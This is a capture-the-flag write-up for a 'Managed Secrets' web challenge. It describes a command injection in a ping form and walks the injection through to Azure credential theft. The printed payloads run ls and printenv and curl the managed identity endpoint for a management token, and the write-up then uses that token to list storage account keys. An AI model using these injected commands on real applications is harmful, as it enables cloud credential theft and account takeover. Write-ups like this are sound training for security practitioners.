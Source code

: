 ![ManagedSecrets1](https://user-images.githubusercontent.com/84762311/233646261-6000da4b-15d8-403e-8a51-c22e559ba4e4.png)



## Description

>Today in school, I learnt how to create a website with python! There is also the networking lesson where i learn the ping command...
>
>ps the flag is not in the instance :)  
>https://lncctf2023-webapp.azurewebsites.net


## Solution

Playing around with the input, I uncovered a command injection vulnerability.
```
127.0.0.1 && ls
```
![ManagedSecrets2](https://user-images.githubusercontent.com/84762311/233647176-f2e38c1a-019b-42a6-ab0e-52496c9c8253.png)


From an article by [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#cea8), I found a command which retrieves the management token.
```
127.0.0.1 && curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
![ManagedSecrets3](https://user-images.githubusercontent.com/84762311/233648638-d3d56b88-9060-4b73-a8d8-36abbc48b2a4.png)


Extract out the subscriptionId, resourceGroupsName, accountName from the environment variables
```
127.0.0.1 && printenv
```
![ManagedSecrets4](https://user-images.githubusercontent.com/84762311/233681009-b2190ab3-5c3b-4e4c-a663-66411316628f.png)


Using postman, send a POST request to obtain access keys from the storage account. Add the access token extracted previously into the request header. Refer to [Microsoft](https://learn.microsoft.com/en-us/rest/api/storagerp/storage-accounts/list-keys?tabs=HTTP) documentation.
```
https://management.azure.com/subscriptions/d7748706-f6cc-4e9d-a1f8-1fc802191456/resourceGroups/lncctf2023_managed_secrets/providers/Microsoft.Storage/storageAccounts/lncctf2023managedsa/listKeys?api-version=2022-09-01
```
![ManagedSecrets5](https://user-images.githubusercontent.com/84762311/233681100-20e70c11-68f0-4237-bba2-58ee5842c7b7.png)


Using the [Microsoft Azure Storage Explorer](https://github.com/microsoft/AzureStorageExplorer/releases) Select Storage account or service > Account name and key. Connect to the storage using the credentials.
![ManagedSecrets6](https://user-images.githubusercontent.com/84762311/233681283-cb18c67d-967b-45fc-acff-f097bd09a958.png)

Retrieve the flag in private
![ManagedSecrets7](https://user-images.githubusercontent.com/84762311/233681578-b9c5b362-7b92-4120-80f1-cce49531e510.png)


## Flag

LNC2023{h3y_h0w_did_y0u_g3T_thi5}